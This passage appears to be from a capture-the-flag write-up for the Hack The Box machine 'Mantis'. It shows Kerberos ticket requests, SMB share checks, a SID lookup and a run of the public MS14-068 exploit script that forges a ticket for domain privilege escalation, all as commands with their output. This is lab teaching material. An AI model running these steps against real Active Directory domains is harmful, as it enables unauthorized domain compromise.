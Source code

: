 ### Generate Kerberos Ticket

First I’ll test this config and try to generate a Kerberos ticket:

    
    
    root@kali# kinit james
    Password for james@HTB.LOCAL: 
    

`klist` will show the ticket:

    
    
    root@kali# klist
    Ticket cache: FILE:/tmp/krb5cc_0
    Default principal: james@HTB.LOCAL
    
    Valid starting       Expires              Service principal
    08/30/2020 16:44:33  08/31/2020 02:44:33  krbtgt/HTB.LOCAL@HTB.LOCAL
            renew until 08/31/2020 16:44:26
    

I can try to connect to `C$`, and it will fail:

    
    
    root@kali# smbclient -W htb.local //mantis/c$ -k
    tree connect failed: NT_STATUS_ACCESS_DENIED
    

That makes sense, since this ticket is for james. If I try to connect to
`SYSVOL`, it works:

    
    
    root@kali# smbclient -W htb.local //mantis/sysvol -k
    Try "help" to get a list of possible commands.
    smb: \>
    

### Forge Golden Ticket

First I need the SID for the james user. I’ll get it via `rpcclient`:

    
    
    rpcclient $> lookupnames james
    james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
    

I was able to find a copy of `ms14-068.py`
[here](https://github.com/mubix/pykek), and I’ll run it just like the help
suggests:

    
    
    root@kali# python /opt/pykek/ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
    Password: 
      [+] Building AS-REQ for mantis.htb.local... Done!
      [+] Sending AS-REQ to mantis.htb.local... Done!
      [+] Receiving AS-REP from mantis.htb.local... Done!
      [+] Parsing AS-REP from mantis.htb.local... Done!
      [+] Building TGS-REQ for mantis.htb.local... Done!
      [+] Sending TGS-REQ to mantis.htb.local... Done!
      [+] Receiving TGS-REP from mantis.htb.local... Done!
      [+] Parsing TGS-REP from mantis.htb.local... Done!
      [+] Creating ccache file 'TGT_james@htb.local.ccache'... Done!
    
